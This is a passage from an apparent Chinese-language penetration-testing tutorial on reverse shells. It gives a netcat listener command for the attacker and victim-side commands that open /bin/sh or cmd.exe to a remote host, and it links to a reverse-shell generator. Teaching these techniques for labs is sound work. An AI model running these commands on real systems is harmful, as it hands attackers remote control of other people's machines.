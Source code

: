 ### 2.7.2. **反向获取shell**

客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。通常反向shell是最常用的。

#### 2.7.2.1. **攻击者**

```
kali命令：nc -lvp 4444 
```

![img](assets/FN63CxAHl4MbvWh.jpg) 

#### 2.7.2.2. **受害者**

```
centos7命令：netcat 192.168.10.20 4444 -e /bin/sh
Windows命令：nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe
```

![img](assets/ZjaOugdI6AimTzJ.jpg) 

## 2.8. **其它获取shell**

这里其它获取shell，就是通过不同的方式进行shell的反弹。这里可以使用反弹shell命令一键生成官网进行测试。

[一键生成反弹shell](https://forum.ywhack.com/reverse-shell/)
